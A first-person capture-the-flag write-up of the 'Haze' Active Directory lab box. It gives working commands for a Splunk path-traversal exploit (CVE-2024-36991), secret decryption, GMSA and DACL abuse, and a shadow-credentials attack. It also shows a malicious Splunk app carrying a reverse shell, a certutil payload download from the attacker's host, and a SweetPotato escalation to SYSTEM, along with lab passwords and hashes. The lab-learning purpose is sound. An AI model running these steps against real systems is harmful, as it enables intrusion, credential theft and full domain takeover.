




Haze
Haze was a hard-difficulty Windows Active Directory box featuring a domain controller with exposed Splunk services. Initial reconnaissance revealed standard AD ports alongside Splunk running on ports 8000, 8089, and 8088. Version enumeration through port 8089 identified a vulnerable Splunk instance susceptible to CVE-2024-36991, a path traversal vulnerability allowing arbitrary file reads.
Exploiting the path traversal via /en-US/modules/messaging/C:../C:../, I extracted Splunk's configuration files including authentication.conf containing an encrypted LDAP password for Paul Taylor, and /etc/auth/splunk.secret containing the decryption key. Using the splunksecrets tool, I decrypted the password to reveal Ld@p_Auth_Sp1unk@2k24. After testing various username formats and creating an user list via RID bruteforcing, the credentials worked for both paul.taylor and mark.adams.
Bloodhound enumeration revealed Mark Adams belonged to the Remote Management Users and GMSA managers groups, providing access to manage the Haze-IT-Backup$ service account. I modified the service account's PrincipalsAllowedToRetrieveManagedPassword attribute via PowerShell, then extracted its GMSA hash using netexec. Further Bloodhound analysis identified an attack path through the support_services group to compromise edward.martin via shadow credentials.
After establishing ownership and FullControl permissions over the support services group, I added the backup account as a member and performed a shadow credentials attack using Certipy, obtaining Edward's NT hash. As Edward Martin, I discovered a Splunk backup archive in C:\ containing legacy configuration files. Recursive grep searches revealed $1$ format password hashes, which I decrypted to obtain Splunk admin credentials: admin:Sp1unkadmin@2k24.
With administrative access to Splunk, I uploaded a malicious .spl application file containing a PowerShell reverse shell, gaining code execution as the alex user. The final privilege escalation leveraged Alex's SeImpersonatePrivilege using SweetPotato to execute a reverse shell as SYSTEM, completing full domain compromise.
User flag
Initial nmap scan reveals a standard set of ports for an active directory DC.
It also revealed 3 ports tied to Splunk, a SIEM/SOAR platform.
Arbitrary file read via Splunk path traversal CVE

I cannot access Splunk without valid credentials. There are no default ones either, so there is nothing I can do here right now.
This was on port 8000. There are 2 ports left, so I'll check them next.
Starting with port 8089, I already found something very useful.
While none of the options worked without a password, knowing the Splunk build version will help significantly with searching for CVEs. That's exactly what I'm going to do.
https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads
There is also a PoC mentioned, but exploitation should be rather simple to do via curl.
curl -X GET http://10.10.11.61:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd
None of these hashes would crack though. I will search for more information on Splunk's configuration files so that I can extract them.
Leaking Splunk secrets
I found a few discussions, images and links. Most importantly, however, I found the official list of the configuration files on the Splunk website.
https://help.splunk.com/en/splunk-enterprise/administer/admin-manual/9.4/configuration-file-reference/9.4.0-configuration-file-reference
First, I grabbed the authentication.conf file. Documentation revealed locations of both the default /etc/system/default/authentication.conf and the custom /etc/system/local/authentication.conf file.
curl -X GET http://10.10.11.61:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf
Paul Taylor | $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
And there's a password string! I don't recognize this format though, and some other tools I've tried did not either. I'll keep searching through the documentation, as maybe there is a way to decode it into something usable.
Reading more into the documentation of this conf file, I stumbled upon the term "secret". I am familiar with what a secret could be and pretty confident that I could uncover this password with it if found.
I searched the web for a location where Splunk stores its secrets, and I found it after a minute.
I'll try grabbing it just like the files before, with a small modification to my curl command.
curl -X GET http://10.10.11.61:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret
Decrypting the LDAP password
Searching for a way to reveal the password, I found a promising repository on github.
https://github.com/HurricaneLabs/splunksecrets
I installed splunksecrets using pipx and tried to decrypt the password.
splunksecrets splunk-decrypt -S secret - where the 'secret' file contains the secret extracted from splunk.secrets
I'll check the validity of these credentials by authenticating with netexec.
But this failed. One of the more common username formats I've come across in AD is FirstLetterOfName.Surname. So here for example it would be p.taylor.
This one did not work either. I can use a tool like username anarchy to generate a list of potential formats to bruteforce with, or I could try single formats manually.
I'll try one more. If this does not work, I will use the mentioned tool.
This format finally worked, but no users were displayed.
RID bruteforcing
Using netexec, I can bruteforce RIDs(Relative identifiers) of domain objects. I will begin with a limit of 2000, and I'll increase it by 1000 after every unsuccessful attempt.

I directed the output of this command into a userlist file.
To refine it into a proper user list, I will use awk to strip off any entry that is not a user. Then I'll cut the remaining lines so that only the usernames will remain.
awk '/SidTypeUser/ {split($6, parts, "\\"); print parts[2]}' userlist > finaluserlist
I will use this user list to test the LDAP password against each user.
mark.adams | Ld@p_Auth_Sp1unk@2k24
Bloodhound enumeration
Now is a good time to do some bloodhound analysis.
Paul Taylor had no interesting permissions at all.
But this was not the case for Mark Adams. He is a member of the Remote Management Users, which means that he can remote into the machine. Additionally, he is a member of the GMSA managers group.
There is also this account with a dollar sign at the end of its name. It is either a service or a computer account. With permission to read GMSA passwords, I should be able to read its hash.
This account can update the owner of this support services group, but there is no one in said group.
This unknown object intrigues me a lot. It could be an important object that Mark Adams cannot access. I'll gather more data once I take control of the backup account.
Manually updating the password read attribute on Haze-IT-Backup$
Mark Adams cannot read the GMSA password of Haze-It. This makes me think that he can instead update their PrincipalsAllowedToReadPassword attribute.
It most definitely can be done remotely with bloodyAD, but I'll do it with powershell since Mark Adams can remote into the machine.
The attribute can be set with this powershell command.
Set-ADServiceAccount -Identity "Haze-IT-Backup$" -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"

Checking the attribute again afterward confirms that the change was successful. Now I'll rerun the netexec command to read the GMSA password.
Bloodhound enumeration 2
As I mentioned before, I will rerun bloodhound-python using the backup account.
bloodhound-python -c all -d haze.htb -u 'Haze-IT-Backup$' --hashes :4de830d1d58c14e241aff55f82ecdba1 -dc DC01.haze.htb -ns 10.10.11.61 --zip
My assumptions were correct. Turns out that the unknown object was, in fact, a user. Anyone in the support services group can manipulate Edward Martin in two ways. I'll use shadow credentials here as it's a cleaner method than simply changing his password.
Edward is a member of the Remote Management Users Group and the Backup Reviewers group. I did see a certain object on the machine that matches the latter group, so that will be my main point of interest after taking control of Edward Martin.
Adding shadow credentials to Edward Martin
There are a few steps that need to be done in order to make the shadow credentials attack possible.
- Set Haze-IT-Backup as the owner of the support_services group
- Elevate rights to FullControll
- Add Haze-IT-Backup to the group
After that, shadow credentials can be added to Edward and his NT hash will be captured.
1. bloodyAD -d haze.htb -u 'Haze-IT-Backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' --host DC01.haze.htb --dc-ip 10.10.11.61 set owner support_services 'Haze-IT-Backup$'
2. impacket-dacledit -hashes ':4de830d1d58c14e241aff55f82ecdba1' -dc-ip 10.10.11.61 -principal 'Haze-IT-Backup$' -target support_services -action write -rights FullControl haze.htb/'Haze-IT-Backup$'
3. bloodyAD -d haze.htb -u 'Haze-IT-Backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' --host DC01.haze.htb --dc-ip 10.10.11.61 add groupMember support_services 'Haze-IT-Backup$'
With everything in place, I will use certipy to perform the shadow credentials attack.
certipy-ad shadow auto -account edward.martin -dc-ip 10.10.11.61 -dc-host DC01.haze.htb -u 'Haze-IT-Backup$' -hashes 4de830d1d58c14e241aff55f82ecdba1
Since I now have Edward's hash, I will remote into the machine as him.

Root flag
The object I mentioned before was located in the C:\ directory.
It was a Splunk backup folder.
Decrypting the backup Splunk password
Inside that folder, there was a zipped backup file, which I'd downloaded onto my machine.
The archive contained the whole Splunk filesystem, the same as in the 1st step.
However, while I did manage to grab a different secret from the same location, there were no passwords in the authentication file.
I remember that the Splunk hashes start with a '$7$' or '$1$', depending on the version they were created in.
I'll use a recursive grep to search for both of those in the whole backup directory.
None of the $7$ hashes decrypted. I moved to the legacy option and began working on the $1$ ones.
splunk admin | Sp1unkadmin@2k24
Getting a reverse shell through Splunk
I tried the uncovered credentials on the Splunk login panel.
Admin access on Splunk will allow me to get a reverse shell from whoever is running it. It involves uploading a malicious .spl file for code execution.
https://github.com/0xjpuff/reverse_shell_splunk
I edited the rev.ps1 one, and zipped the files into a .spl file, following the repo guide.
To install the malicious file, I'll go to apps -> manage apps -> install the app from file -> browse to the file and select it -> install.
The reverse shell hit my listener seconds after clicking the install button.
Shell as system
Alex has the SeImpersonatePrivilege. This means I can use a potato exploit to gain a SYSTEM shell.
I'll start by trying sweet potato because I already had the executable.
I will transport it onto the box using certutil.
certutil -urlcache -f httpL//10.10.16.94:8000/SweetPotato.exe sweetpotato.exe
And a reverse shell as well. Just a regular powershell oneliner. I'll save it as rev.ps1.
I stood up a listener in a different terminal and executed sweet potato.
.\SweetPotato.exe -a 'powershell -ep bypass C:\programdata\rev.ps1'
Rooted!